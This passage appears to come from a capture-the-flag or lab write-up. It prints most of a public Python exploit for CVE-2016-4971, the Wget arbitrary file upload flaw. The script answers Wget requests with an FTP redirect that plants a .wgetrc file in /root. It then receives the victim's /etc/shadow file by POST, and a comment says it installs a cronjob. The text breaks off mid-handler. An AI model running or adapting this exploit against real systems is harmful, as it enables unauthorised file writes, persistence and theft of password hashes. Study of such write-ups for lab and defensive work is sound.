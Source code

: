 Also, according to the description, we need a python script "wget-exploit.py"
{% highlight shell %}
root@kali:~# cat wget-exploit.py 
#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971 
#

import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)
